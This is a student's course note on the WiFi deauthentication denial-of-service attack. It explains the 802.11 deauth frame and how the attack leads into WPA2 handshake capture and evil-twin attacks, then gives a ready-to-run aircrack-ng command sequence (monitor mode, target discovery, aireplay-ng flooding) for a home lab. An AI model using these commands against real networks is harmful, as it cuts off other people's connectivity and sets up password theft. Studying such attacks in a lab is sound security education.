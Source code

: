 # Wireless Injection: Deauthentication Attack
- The Deauthentication Attack which is an attack of type **DoS** that targets the communication between a WiFi client and the WiFi AP or Router. (**see [[Wireless Security]] for more info**)
- The IEEE 802.11 protocol defines a special management frame called deauthentication frame which is sent by the AP to a station as a sanction technique to inform the station it has to disconnect from the network immediately.
- **The deauthentication attack works on [[WPA2]] despite encryption.**


> [!NOTE] Why? What's the purpose?
> - **Deauthentication attack is the first step of other attacks like:**
> 	- Cracking the [[WPA2]] Password by capturing the WPA2 4-Way Handshake by forcing the user to reconnect to the network.
> 	- Forcing the users to connect to the hacker’s rogue AP (***Evil Twin Attack***).


## Playing around with it
==*(More details in moodle files: **Sniffing WiFi Traffic** and **Deauthentication Attack**)*==
See: [[Wifi monitor mode]] and [[Sniffing WiFI Traffic]]
1. Setup a hotspot connection
2. Connect your laptop and your Virtual Machine to the hotspot
3. Perform Deauthentication attack in Virtual Machine to disconnect Wi-Fi in your laptop

#### Commands - Deauthentication Attack
```shell
########################## 
## WiFi Deauthentication Attack 
########################## 

# 1. Put the WiFi interface into monitor mode
iwconfig # -> check the interface name 
airmon-ng check kill 
airmon-ng start wlan0 
iwconfig # -> testing the mode of operation 

# 2. Identify the network and the target 
airodump-ng -i wlan0mon 

airodump-ng -i wlan0mon --bssid 34:2C:C4:93:45:97 -c 1 # -> narrow down the result
# If nothing is shown, disable 5GHz. In Device Manager, right-click on the Intel card and select Properties 

# Then click on the Advanced tab. 

# You will see an option called Wireless mode. Set the mode from 802.11a/b/g to just 802.11b/g. 

# This will prevent the card from scanning or accessing the 5Ghz 802.11a band and just leave you with the 2.4Ghz b/g band to work with. 

# 3. Launching the deauthentication attack 
aireplay-ng --test wlan0mon # -> testing injection 
aireplay-ng --deauth 999999 -a 34:2C:C4:93:45:97 -c b4:c4:fc:67:57:08 wlo1mon 

# --deauth -> no. of deauth frames to send (0 means continuously) 
# -a -> MAC address of the AP 
# -c -> MAC address of the client to deauthenticate
```
